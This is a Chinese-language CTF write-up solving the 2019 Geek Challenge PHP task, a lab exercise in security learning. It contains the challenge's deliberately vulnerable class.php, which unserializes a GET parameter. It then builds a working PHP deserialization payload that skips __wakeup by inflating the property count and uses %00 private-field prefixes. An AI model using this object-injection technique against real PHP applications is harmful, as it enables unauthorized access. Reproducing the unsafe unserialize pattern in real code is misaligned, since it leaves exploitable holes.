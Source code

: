 ```yaml
---
title: 极客大挑战 2019PHP 1
date: 2022-05-14 22:13:04
toc: false
tags:
- 反序列化
categories: CTF-Web
my: php1
---
```


打开题目看见猫猫的动画，非常的简陋（bushi）大佬制作的动画还是很强

![](https://s2.loli.net/2022/05/15/19agnTkZNpbCM6u.png)

按F12没有任何提示，看见题目说的备份文件，就直接去扫了目录，发现了`www.zip`，直接去访问下载了网站源码

![](https://s2.loli.net/2022/05/15/FXqgWCYipZLsEca.png)

~~直接打开flag.php好拿到flag本题结束~~

怎么可能这么简单发现flag很明显就是假的，接下里就开始分析源码吧

![](https://s2.loli.net/2022/05/15/yBMikTZsj7Wa4tX.png)这里加载了一个class.php文件，然后采用get传递一个select参数，随后将之反序列化

我们接着打开class.php，很好非常多，看着就头大

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

根据代码的可以知道，如果password=100，username=admin，在执行__destruct()的时候可以获得flag，我就直接去构造反序列化:

```php
<?php

class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));

?>
```

得到结果

```
O:4:"Name":2:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

在反序列化的时候会首先执行`__wakeup()`魔术方法，这个方法会把我们的username重新赋值，当属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行，从而修改为如下

```
O:4:"Name":3:{s:14:"Nameusername";s:5:"admin";s:14:"Namepassword";i:100;}
```

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，类名和字段名前面都会加上%00的前缀，再次改造序列化后得到如下

```
O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接构造payload

```
/?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

直接拿到flag

